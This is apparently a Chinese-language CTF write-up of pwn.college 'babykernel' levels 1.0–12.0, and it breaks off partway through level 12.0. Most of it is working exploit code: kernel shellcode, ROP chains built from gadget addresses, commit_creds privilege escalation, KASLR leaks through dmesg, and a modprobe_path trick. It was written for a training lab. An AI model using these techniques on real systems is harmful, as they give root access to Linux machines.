## level1.0 (read write 与kernel 交互)
‍

- 通过简单的分析可以得知 使用 `proc_create()`​ 创建里一个进程 `pwncollege`



- 通过对 `/proc/pwncollege` 读写进行交互



‍

‍

程序只写了三个种操作方式 `open`​ `write`​ `read`



‍

- read 时分析



- write



‍

- 小记一下，读文件操作



‍

‍

```c
// https://paste.sr.ht/~pitust/76f8e4b08694242354b5adb058dbaf7747675d96
#include <stddef.h>
#include <stdint.h>
#include "minilib.h"

// 0 `O_RDONLY`：以只读方式打开文件。
// 1 `O_WRONLY`：以只写方式打开文件。
// 2 `O_RDWR`：以读写方式打开文件。
//

char flag[0x100] = {0};

void doMain(){

    int fd = open("/proc/pwncollege",2);
    hex(fd);

    write(fd,"lxgyvowwldtjmsum",0x10);
    read(fd,flag,0x50);

    puts(flag);
}

extern void _start(){
    doMain();
    syscall64(60,0);
}
```

‍

## level1.1

‍

- 和 level1.0 差不多 只是字符串变了而已。。。

‍

‍

## level2.0 (查看内核日志)

‍



执行没有回显，但是上面图片代码里确实有 `printk`



‍

可以使用 `dmesg` 查看内核日志

‍

```bash
dmesg
```

‍



‍

‍

## level2.1

‍





‍

```c
#include <stddef.h>
#include <stdint.h>
#include "minilib.h"


char flag[0x50] = {0};


void doMain(){
    puts("hacker");

    char procn[0x30] = "/proc/pwncollege";
    int fd = open(procn,2);

    hex(fd);

    write(fd,"hlthonarnkcsbsnz",0x10);

}

extern void _start(){
    doMain();
    syscall64(60,0);
}
```

‍

## level3.0

‍



‍

​`commit_creds(prepare_kernel_cred(0));` 提权

‍



‍

执行后 需要 在返回用户态，执行`system("/bin/sh");` 完成提权

‍

‍

‍

- exploit

‍

```c
#include <stddef.h>
#include <stdint.h>
#include "minilib.h"


char flag[0x50] = {0};

extern char **environ;

void doMain(){
    puts("hacker");

    char procn[0x30] = "/proc/pwncollege";
    int fd = open(procn,2);
    hex(fd);

    write(fd,"fypkrabmcrzysebl",0x10);


    int uid = getuid();

    hex(uid);

    if(uid==0){
        get_shell();
    }


}

extern void _start(){
    doMain();
    syscall64(60,0);
}
```

‍

## level3.1

同 level3.0

‍

## level4.0 (ioctl)

‍

- 上面的题都是 open read write 调用，这道题使用的是 `ioctl` 调用

‍

```python
#include <stddef.h>
#include <stdint.h>
#include "minilib.h"


char flag[0x50] = {0};


void doMain(){
    puts("hacker");
                                                                                                                                                                                                                                                                                  char procn[0x30] = "/proc/pwncollege";
    int fd = open(procn,2);
    hex(fd);

    ioctl(fd, 0x539, "pupqprwamavtwcxq");
    //puts(flag);
    get_shell();

}

extern void _start(){
    doMain();
    syscall64(60,0);
}
```

‍

## level4.1

‍

同 level4.0

‍

## level5.0 (call argv)

‍

- 保护



‍

- exploit

```c
#include<stdio.h>
#include <fcntl.h>
#include <unistd.h>

int get_root(){
    printf("Now!! uid=%d.\n",getuid());
    system("/bin/sh");
}

int main(){
    int fd = open("/proc/pwncollege",O_WRONLY);
    if(fd < 0){
        perror("open fail.\n");
        return 1;
    }
    printf("Open successfully\n");
    printf("fd = %d.\n",fd);

    size_t kernel_ko_base = 0xffffffffc0000000;
    size_t win_addr = kernel_ko_base + 0x000043D;
    printf("kernel_ko_base = %llu\n",kernel_ko_base);
    printf("win_addr = %llu\n",win_addr);

    ioctl(fd, 0x539, win_addr);

  
    get_root(); 
    return 0;
}
```

‍

## level5.1

同 level5.0

‍

‍

‍

## level6.0

‍

```sh
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough -device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root -fsdev local,id=homefs,path=/home/hacker,security_model=passthrough -device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none -append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init nokaslr -enable-kvm (238)
```

‍

- nokasr

‍



‍

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <string.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sched.h>
#include <ctype.h>
#include <pthread.h>
#include <sys/types.h>
#include <sys/sem.h>
#include <semaphore.h>
#include <poll.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/shm.h>
#include <sys/wait.h>
#include <linux/keyctl.h>
#include <sys/user.h>
#include <sys/ptrace.h>
#include <stddef.h>
#include <sys/utsname.h>
#include <stdbool.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <linux/userfaultfd.h>
#include <sys/socket.h>
#include <asm/ldt.h>
#include <linux/if_packet.h>

#include "minilib.h"

#define TTY_STRUCT_MAGIC 0x0000000100005401


size_t kernel_base = 0;
size_t modprobe_path = 0;
size_t kernel_heap_base = 0;
size_t fd;


void bind_core(int core)
{
cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    lss("Process binded to core", core);
}


int get_kernel_base(){
    int fdd = open("/sys/kernel/notes",0);
    if(fdd < 0){
        perror("open");
        return -1;
    }
    char *kernelBuf = calloc(1,0x1000);
    memset(kernelBuf,'\x00',0x1000);
    read(fdd,kernelBuf,0x1000);
    hexdump(kernelBuf,0x100);
    uint64_t *kernel_low = kernelBuf;
    uint64_t kernel_low_addr = kernel_low[0x80/0x8] >> 32;
    uint64_t kernel_high_addr = kernel_low[0x88/0x8] & 0xffffffff;
    uint64_t kernel_addr = (kernel_high_addr << 32) + kernel_low_addr;
    kernel_base =  kernel_addr - (0xffffffff829e1180 - 0xffffffff81000000);
    lss("kernel_base",kernel_base);
}


uint64_t ga(uint64_t addr){
    return addr - 0xffffffff81000000 + kernel_base;
}

void modprobe_rce(){

    //system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /tmp/e1");
    //system("echo -ne '#!/bin/sh\n/bin/chown root: /tmp/e3\n/bin/chmod 4755 /tmp/e3\n' > /tmp/e1");
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /tmp/e1");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/e2");
    system("chmod +x /tmp/e1");
    system("chmod +x /tmp/e2");
    system("/tmp/e2");      // sh: /tmp/e2: Permission denied
    system("/tmp/e2");      // ./tmp/e2: line 1: : not found
}

size_t buf[8] = {0};

static void shellcode(){
    asm volatile (
        "nop;"
        "mov rbx,[rsp+0x18];"
        "sub rbx,0x2463e4;"
        "add rbx,0x1444620;"
        "mov rsi,0x31652f706d742f;"
        "mov [rbx],rsi;"
        "ret;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
}size_t sc_addr = &shellcode + 8;
static void shellcode_end(){return;}

void odp(char *file){
    fd = open(file,O_RDWR);
    if (fd < 0){
        err("open device failed!");
    }
}


int main(){
    //shellcode();

    bind_core(0);
    save_status();


    odp("/proc/pwncollege");

    modprobe_rce();
    write(fd,sc_addr, shellcode_end-shellcode-8);


    hexdump(&buf,64);


    return 0;
}

```

‍



‍

## level6.1

‍

```bash
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough -device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root -fsdev local,id=homefs,path=/home/hacker,security_model=passthrough -device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none -append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init nokaslr -enable-kvm (238)
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough -device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root -fsdev local,id=homefs,path=/home/hacker,security_model=passthrough -device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none -append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init nokaslr -enable-kvm (796)
```

‍

- 同 level6.0

‍

‍

‍

‍

## level7.0

比较简单就直接贴个exp 吧

```c
#include "minilib.h"

char flag[0x50] = {0};

size_t nokaslr_kernel_base  = 0xffffffff81000000;
size_t commit_creds         = 0xffffffff810c5010;
size_t prepare_kernel_cred  = 0xffffffff810c5270;


size_t user_cs, user_ss, user_rflags, user_sp;
void save_status(){
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

static void get_root_shell(){
    int uid = getuid();
    hex(uid);
    system("/bin/sh");
    //chmod("/flag",0777);
    syscall64(60,0);
}
static size_t shell_addr = &get_root_shell;

static void shellcode(){
    asm volatile (
        "mov rdi, qword ptr gs:[0x15d00];"
        "add rdi, 0x630;"
        "mov rdi,[rdi];"
        "mov qword ptr [rdi + 0x04],0;" 
        "mov qword ptr [rdi + 0x0C],0;"
        "mov qword ptr [rdi + 0x14],0;"
        "mov qword ptr [rdi + 0x1C],0;"
        "nop;"
        "ret;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
}
static void end_shellcode(){ return; }
size_t sc_addr = &shellcode + 8;

void modprobe_rce(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /tmp/e1");
    system("chmod +x /tmp/e1");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/e2");
    system("chmod +x /tmp/e2");
    system("/tmp/e2");      // sh: /tmp/e2: Permission denied
    system("/tmp/e2");      // ./tmp/e2: line 1: : not found
    system("cat /flag");
    system("cat /flag");
}


struct buf1{
    size_t len;
    char shellcode[0x1000];
    size_t exec;
};


void doMain(){
    size_t sc_size = &end_shellcode-&shellcode;
    save_status();
    char procn[0x30] = "/proc/pwncollege";
    int fd = open(procn,2);

    struct buf1 buf;
    buf.len = sc_size;
    // 给 shellcode 赋值;
    memcpy(buf.shellcode, sc_addr, sc_size);
    buf.exec = 0xffffc90000045000;
    buf.exec = 0xffffc90000085000;

    ioctl(fd, 1337,&buf);

    //write(fd, sc_addr, sc_size);

    get_root_shell();


}

extern void _start(){
    size_t env[0];
    environ = &env[4];
    doMain();
    syscall64(60,0);
}


```

‍

‍

## level7.1

‍

同 level7.0

‍

## level8.0

‍

本地调试时 用的

```c
#include "minilib.h"


size_t nokaslr_kernel_base  = 0xffffffff81000000;
size_t commit_creds         = 0xffffffff810c5010;
size_t prepare_kernel_cred  = 0xffffffff810c5270;


size_t user_cs, user_ss, user_rflags, user_sp;
void save_status(){
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

static void get_root_shell(){
    int uid = getuid();
    hex(uid);
    system("/bin/sh");
    //chmod("/flag",0777);
    syscall64(60,0);
}
static size_t shell_addr = &get_root_shell;

static void shellcode(){
    asm volatile (
        "mov rax, 1;"
        "mov rdi, 3;"
        "mov rdx, 0x800;"
        "lea rsi, [rip+kernel_code];"
        "syscall;"

        "mov rax,1;"
        "mov rdi,1;"
        "mov rsi, 0x31337000+0x200;"
        "mov rdx, 0x100;"
        "syscall;"
    
        "ret;"
        "kernel_code:;"
        "mov rcx, 0xc0000082;"
        "rdmsr;"
        "lea rdi, [rip+flag];"
        "mov rsi,0;"
        "mov rdx,0;"
        "mov rax, 0xffffffff811ca7a0;" //0xffffffff811c8620
        "call rax;"

        "mov rdi, rax;"
        "lea rsi, [rip+text1];"
        "mov rdx, 0x100;"
        "lea rcx, [rip+ops];"
        "mov rax, 0xffffffff811cf1e0;" // 0xffffffff811cbfd0
        "call rax;"

        "mov rdi, 0x31337000+0x200;"
        "lea rsi, [rip+text1];"
        "mov rdx, rax;"
        "mov rax, 0xffffffff813ba6e0;"//0xffffffff813b0f20
        "call rax;"

        "nop;"
        "nop;"
        "nop;"
        "nop;"
        "ret;"

        "flag:  .asciz \"/flag\";" // 字符串 /flag
        ".align 8;"                // 将数据对齐到 8 字节边界
        // ; 此处会有零填充，直到下一个数据开始时对齐到 8 字节边界

        "text1: .space 0x100;" // 预留 0x100 字节的空间
        "ops:   .space 0x10;" // 预留 0x100 字节的空间

        //"mov rdi, 0x15d00;"

        //"mov rdi, qword ptr gs:[0x15d00];"
        //"add rdi, 0x630;"
        //"mov rdi,[rdi];"
        //"mov qword ptr [rdi + 0x04],0;" 
        //"mov qword ptr [rdi + 0x0C],0;"
        //"mov qword ptr [rdi + 0x14],0;"
        //"mov qword ptr [rdi + 0x1C],0;"
        //"nop;"
        //"ret;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
}
static void end_shellcode(){ return; }
size_t sc_addr = &shellcode + 8;


void doMain(){
    size_t sc_size = &end_shellcode-&shellcode;
    save_status();

    char procn[0x30] = "/proc/pwncollege";

    int fd = open(procn,2);

    mmap((void *)0x31337000, 0x1000, 7, 34, 0, 0);

    //read(0, (void *)0x31337000, 0x1000);
    memcpy((void *)0x31337000, sc_addr, sc_size);

    ((void (*)(void))0x31337000)();


    //write(fd, sc_addr, sc_size);


    //get_root_shell();


}

extern void _start(){
    size_t env[0];
    environ = &env[4];
    doMain();
    syscall64(60,0);
}


```

‍

- 打远程 的 脚本 exp.py

```python
from pwn import *


context.arch = 'amd64'

sc = '''
mov rax, 1
mov rdi, 3
mov rdx, 0x800
lea rsi, [rip+kernel_code]
syscall

mov rax,1
mov rdi,1
mov rsi, 0x31337000+0x100
mov rdx, 0x100
syscall
ret

kernel_code:
lea rdi, [rip+flag]
mov rsi,0
mov rdx,0
mov rax, 0xffffffff811c8620
call rax

mov rdi, rax
lea rsi, [rip+text1]
mov rdx, 0x100
lea rcx, [rip+ops]
mov rax, 0xffffffff811cbfd0
call rax

mov rdi, 0x31337000+0x100
lea rsi, [rip+text1]
mov rdx, rax
mov rax, 0xffffffff813b0f20
call rax

nop
nop
nop
nop
ret

flag:  .asciz \"/flag\"
.align 8
text1: .space 0x50
ops:   .space 0x10
'''


print(asm(sc))

```

‍

## level8.1

‍

同 level8.0

‍

‍

## level9.0

- ROP



‍



‍

```c
#include "minilib.h"

char flag[0x50] = {0};

size_t nokaslr_kernel_base  = 0xffffffff81000000;
size_t commit_creds         = 0xffffffff810c5010;
size_t prepare_kernel_cred  = 0xffffffff810c5270;


size_t user_cs, user_ss, user_rflags, user_sp;
void save_status(){
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}

static void get_root_shell(){
    int uid = getuid();
    hex(uid);
    system("/bin/sh");
    //chmod("/flag",0777);
    syscall64(60,0);
}
static size_t shell_addr = &get_root_shell;

static void shellcode(){
    asm volatile (
        "xor rdi, rdi;"
        "mov rcx, prepare_kernel_cred;"
        "call rcx;"
        "mov rcx, commit_creds;"
        "call rcx;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
    // restore_flags
    asm volatile (
        "nop;"
        "nop;"
        "push user_ss;"
        "push user_sp;"
        "push user_rflags;"
        "push user_cs;"
        "push shell_addr;"
        "swapgs;"
        "iretq;"
    );
}size_t sc_addr = &shellcode + 8;

void modprobe_rce(){
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /tmp/e1");
    system("chmod +x /tmp/e1");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/e2");
    system("chmod +x /tmp/e2");
    system("/tmp/e2");      // sh: /tmp/e2: Permission denied
    system("/tmp/e2");      // ./tmp/e2: line 1: : not found
    system("cat /flag");
    system("cat /flag");
}


void doMain(){
    save_status();

    char procn[0x30] = "/proc/pwncollege";

    int fd = open(procn,2);

    struct {
        size_t rop[256/8];
        size_t *ptr;
        } logger;


    // repeat(&logger.buffer, 0x41,0x100);

    size_t pop_rax = 0xffffffff8100dc0e;
    size_t pop_rdi = 0xffffffff81002c3a;
    size_t pop_rsi = 0xffffffff81001fb5;
    size_t pop_rdx = 0xffffffff81049968;
    size_t prepare_kernel_cred = 0xffffffff810895e0;
    size_t commit_creds = 0xffffffff810892c0;
    size_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00a45;

    int i = 0;
    logger.rop[i++] = pop_rdi;
    logger.rop[i++] = 0;
    logger.rop[i++] = prepare_kernel_cred;
    logger.rop[i++] = commit_creds;
    logger.rop[i++] = swapgs_restore_regs_and_return_to_usermode;
    logger.rop[i++] = 0;
    logger.rop[i++] = 0;
    logger.rop[i++] = &get_root_shell;
    logger.rop[i++] = user_cs;
    logger.rop[i++] = user_rflags;
    logger.rop[i++] = user_sp;
    logger.rop[i++] = user_ss;


    logger.ptr = pop_rdi;

    write(fd, &logger, 0x108);

}
extern void _start(){
    size_t env[0];
    environ = &env[4];
    doMain();
    syscall64(60,0);
}


```

‍

## level9.1

‍

同 level9.0

‍

## level10.0

‍

```bash
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough -device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root -fsdev local,id=homefs,path=/home/hacker,security_model=passthrough -device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none -append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init  -enable-kvm (9426)
```

‍

- 可以通过 `dmesg`​ 命令 和 `cat /proc/kmsg` 泄露kernel 地址

```c
#include "minilib.h"

size_t nokaslr_kernel_base  = 0xffffffff81000000;

static void shellcode(){
    asm volatile (
        "xor rdi, rdi;"
        "mov rcx, prepare_kernel_cred;"
        "call rcx;"
        "mov rcx, commit_creds;"
        "call rcx;"
        // swapgs_restore_regs_and_return_to_usermode -- mov rdi,rsp
    );
    // restore_flags
    asm volatile (
        "push user_ss;"
        "push user_sp;"
        "push user_rflags;"
        "push user_cs;"
        "push shell_addr;"
        "swapgs;"
        "iretq;"
    );
}size_t sc_addr = &shellcode + 8;


char *procn = "/proc/pwncollege";

#define stbase(value) ((value) - 0xffffffff81000000ULL)
void doMain(){
  
    save_status();

    int fd = open(procn,2);

    struct {
        size_t rop[256/8];
        size_t *ptr;
    } logger;

    repeat(&logger.rop, 0x41,0x100);
    write(fd, &logger, 0x100);

    system("dmesg > /tmp/log");

    int log = open("/tmp/log",0);
    size_t tmp = malloc(0x1000);
    lss("log fd",log);
    size_t *leak = 0;
    while(read(log, tmp, 0x1000)){
        //puts(tmp);
        leak = ru(tmp, 0x1000, &logger.rop , 0x100);
        if (leak != 0){
            break;
        }
    }

    size_t printk = leak[0];
    //size_t printk = 0xffffffffa98b69a9;
    nokaslr_kernel_base = printk - stbase(0xffffffff810b69a9);

    //hexdump(tmp,0x300);
    lss("printk", printk);
    lss("kernel_base", nokaslr_kernel_base);

    // local
    //size_t pop_rax = nokaslr_kernel_base + stbase(0xffffffff8100dc0e);
    //size_t pop_rdi = nokaslr_kernel_base + stbase(0xffffffff81002c3a);
    //size_t pop_rsi = nokaslr_kernel_base + stbase(0xffffffff81001fb5);
    //size_t pop_rdx = nokaslr_kernel_base + stbase(0xffffffff81049968);

    //size_t prepare_kernel_cred = nokaslr_kernel_base + stbase(0xffffffff810895e0);
    //size_t commit_creds = nokaslr_kernel_base + stbase(0xffffffff810892c0);
    //size_t swapgs_restore_regs_and_return_to_usermode = nokaslr_kernel_base + stbase(0xffffffff81c00a2f);
    //size_t kernel_read = nokaslr_kernel_base + stbase(0xffffffff811cf1e0);

    // remote
    size_t pop_rax = nokaslr_kernel_base + stbase(0xffffffff8100dc8e);
    size_t pop_rdi = nokaslr_kernel_base + stbase(0xffffffff81001518);
    size_t pop_rsi = nokaslr_kernel_base + stbase(0xffffffff8100112e);
    size_t pop_rdx = nokaslr_kernel_base + stbase(0xffffffff810488c8);

    //--------------------------------------------------------------------------------
    //['printk', 'prepare_kernel_cred', 'commit_creds', 'swapgs_restore_regs_and_return_to_usermode', 'kernel_read']
    size_t prepare_kernel_cred = nokaslr_kernel_base + stbase(0xffffffff81089660);
    size_t commit_creds = nokaslr_kernel_base + stbase(0xffffffff81089310);
    size_t swapgs_restore_regs_and_return_to_usermode = nokaslr_kernel_base + stbase(0xffffffff81c00a2f);
    size_t kernel_read = nokaslr_kernel_base + stbase(0xffffffff811cbfd0);


    int i = 0;
    logger.rop[i++] = pop_rdi;
    logger.rop[i++] = 0;
    logger.rop[i++] = prepare_kernel_cred;
    logger.rop[i++] = commit_creds;
    logger.rop[i++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    logger.rop[i++] = 0;
    logger.rop[i++] = 0;
    logger.rop[i++] = &get_root_shell;
    logger.rop[i++] = user_cs;
    logger.rop[i++] = user_rflags;
    logger.rop[i++] = user_sp;
    logger.rop[i++] = user_ss;

    logger.ptr = pop_rdi;

    write(fd, &logger, 0x108);


}
extern void _start(){
    size_t env[0];
    environ = &env[4];
    doMain();
    syscall64(60,0);
}


```

‍

## level10.1

‍

- 无法使用 `dmesg`​ 命令 和 `cat /proc/kmsg`​  ，`/dev/kmsg`



‍

```bash
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap
	-fsdev local,id=rootfs,path=/,security_model=passthrough
	-device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root
	-fsdev local,id=homefs,path=/home/hacker,security_model=passthrough
	-device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0
	-netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none
	-append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init
	-enable-kvm (753)
```

‍

??????????  `dmesg`​ 又可以用了，傻逼了我（应该是没 启动 vm） 同 `level 10.0`

‍



‍

exp 和 level10.0 基本没区别

‍

‍

## level11.0

- nokaslr
- 可以使用 `dmesg` 查看kernel 日志

```bash
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage -cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough -device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root -fsdev local,id=homefs,path=/home/hacker,security_model=passthrough -device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker -device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 -m 2G -smp 2 -nographic -monitor none -append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init nokaslr -enable-kvm (673)
```

‍

- 源码

```c
int __cdecl init_module()
{
  __int64 v0; // rdx
  __int64 v1; // rdx
  __int64 v2; // rdx
  __int64 v3; // rdx
  __int64 v4; // rdx
  __int64 v5; // rdx
  __int64 v6; // rdx
  __int64 v7; // rdx

  shellcode = (unsigned __int8 *)_vmalloc(0x1000LL, 0xCC0LL, _default_kernel_pte_mask & 0x163);
  proc_entry = (proc_dir_entry *)proc_create("pwncollege", 384LL, 0LL, &fops);
  printk(&unk_12BE, 384LL, v0);
  printk(&unk_1118, 384LL, v1);
  printk(&unk_12BE, 384LL, v2);
  printk(&unk_1148, 384LL, v3);
  printk(&unk_11B0, 384LL, v4);
  printk(&unk_1210, 384LL, v5);
  printk(&unk_1258, 384LL, v6);
  printk(&unk_12C5, 384LL, v7);
  return 0;
}
ssize_t __fastcall device_write(file *file, const char *buffer, size_t length, loff_t *offset)
{
  size_t v5; // rdx
  __int64 v6; // rbp

  printk(&unk_10D8, file, buffer);
  v5 = 4096LL;
  if ( length <= 0x1000 )
    v5 = length;
  v6 = copy_from_user(shellcode, buffer, v5);
  ((void (*)(void))shellcode)();
  return length - v6;
}
```

‍

‍



- elf 程序 和 level 8 一样，只通过shellcode 来调用 kernel 模块



‍

```c
int load_flag()
{
  int fd; // [rsp+4h] [rbp-Ch]
  sem_t *sem; // [rsp+8h] [rbp-8h]

  puts("Attempting to load the flag into memory.\n");
  sem = (sem_t *)mmap(0LL, 0x1000uLL, 3, 33, 0, 0LL);
  sem_init(sem, 1, 0);
  if ( !fork() )
  {
    fd = open("/flag", 0);
    if ( fd < 0 )
      exit(1);
    read(fd, &flag_23583, 0x100uLL);
    close(fd);
    sem_post(sem);
    while ( 1 )
      sleep(1u);
  }
  return sem_wait(sem);
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+24h] [rbp-1Ch]
  int v5; // [rsp+28h] [rbp-18h]
  int v6; // [rsp+2Ch] [rbp-14h]
  __int64 v7; // [rsp+38h] [rbp-8h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("###");
  printf("### Welcome to %s!\n", *argv);
  puts("###");
  putchar(10);
  puts("You may upload custom shellcode to do whatever you want.\n");
  puts("For extra security, this challenge will only allow certain system calls!\n");
  load_flag();
  unlink("/flag");
  puts("The flag has been deleted!\n");
  v5 = open("/proc/pwncollege", 2);
  printf("Opened `/proc/pwncollege` on fd %d.\n", v5);
  puts(&byte_4022ED);
  if ( mmap((void *)0x31337000, 0x1000uLL, 7, 34, 0, 0LL) != (void *)825454592 )
    __assert_fail("shellcode == (void *)0x31337000", "<stdin>", 0x88u, "main");
  printf("Mapped 0x1000 bytes for shellcode at %p!\n", (const void *)0x31337000);
  puts("Reading 0x1000 bytes of shellcode from stdin.\n");
  v6 = read(0, (void *)0x31337000, 0x1000uLL);
  puts("This challenge is about to execute the following shellcode:\n");
  print_disassembly(825454592LL, v6);
  puts(&byte_4022ED);
  puts("Restricting system calls (default: allow).\n");
  v7 = seccomp_init(2147418112LL);
  for ( i = 0; i <= 511; ++i )
  {
    if ( i == 1 )
    {
      printf("Allowing syscall: %s (number %i).\n", "write", 1);
    }
    else if ( (unsigned int)seccomp_rule_add(v7, 0LL, (unsigned int)i, 0LL) )
    {
      __assert_fail("seccomp_rule_add(ctx, SCMP_ACT_KILL, i, 0) == 0", "<stdin>", 0x9Eu, "main");
    }
  }
  puts("Executing shellcode!\n");
  if ( (unsigned int)seccomp_load(v7) )
    __assert_fail("seccomp_load(ctx) == 0", "<stdin>", 0xA3u, "main");
  MEMORY[0x31337000]();
  puts("### Goodbye!");
  return 0;
}
```

‍

- ko 模块 ，执行shellcode



‍

- flag 的地址 `0x040`



‍

```python
from pwn import *


io = process('/challenge/babykernel_level11.0')
# mov rcx, 0x6c6c6f635f6e7770
context.arch='amd64'
sc = '''
mov rax,1
mov rdi,3
mov rdx,0x200
lea rsi, [rip+code1]
syscall

code1:
    nop
    nop
    mov rax, 0xffff888000000000+0x40
    mov rcx, 0x6c6c6f632e6e7770
    mov rsi, 0x7b6567656c6c6f63
    mov rbx, 0x1000
    loop1:
        add rax, rbx
        mov rdx, [rax]
        cmp rdx, rcx
        jne loop1
    mov rdx, [rax+4]
    cmp rdx, rsi
    jne loop1
    mov rdi, rax
    mov rax, 0xffffffff810b69a9
    jmp rax
    nop
    ret
'''

# 0x7b6567656c6c6f63

# mov rcx, 0x6c6c6f632e6e7770
# mov rsi, 0x7b6567656c6c6f63
# >>> b'pwn.coll'[::-1].hex()
# '6c6c6f632e6e7770'
# >>> b'college{'[::-1].hex()
# '7b6567656c6c6f63'
pwn.college{
#open("asas",'wb').write(asm(sc))
pay = asm(sc)

io.interactive()
io.sendline(pay)


io.interactive()
```

‍

- 从 `direct mapping`​ 暴力搜索 字符串-> `pwn.college{`, 然后 用 printk 输出到kernel 日志，

dmesg 查看 kernel 日志



‍

## level11.1

‍

用 level11.0的 脚本就可以同

‍

## level12.0

‍

- 和 `level11` 一样的交互方式

‍

启动和保护, `nokaslr`

```bash
/usr/bin/qemu-system-x86_64 -kernel /opt/linux/bzImage \
	-cpu host,smep,smap -fsdev local,id=rootfs,path=/,security_model=passthrough \
	-device virtio-9p-pci,fsdev=rootfs,mount_tag=/dev/root \
	-fsdev local,id=homefs,path=/home/hacker,security_model=passthrough \
	-device virtio-9p-pci,fsdev=homefs,mount_tag=/home/hacker \
	-device e1000,netdev=net0 -netdev user,id=net0,hostfwd=tcp::22-:22 \
	-m 2G -smp 2 -nographic -monitor none \
	-append rw rootfstype=9p rootflags=trans=virtio console=ttyS0 init=/opt/pwn.college/vm/init nokaslr \
	-enable-kvm
```

LKM文件应该是一样的，`babykernel_level12.0` 里的 load_flag 发生了变化

```c
__pid_t load_flag()
{
  int fd; // [rsp+Ch] [rbp-4h]

  puts("Attempting to load the flag into memory.\n");
  if ( !fork() )
  {
    fd = open("/flag", 0);
    if ( fd < 0 )
      exit(1);
    read(fd, &flag_23549, 0x100uLL);
    close(fd);
    exit(0); 子进程执行完后就退出了
  }
  return wait(0LL);
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+24h] [rbp-1Ch]
  int v5; // [rsp+28h] [rbp-18h]
  int v6; // [rsp+2Ch] [rbp-14h]
  __int64 v7; // [rsp+38h] [rbp-8h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("###");
  printf("### Welcome to %s!\n", *argv);
  puts("###");
  putchar(10);
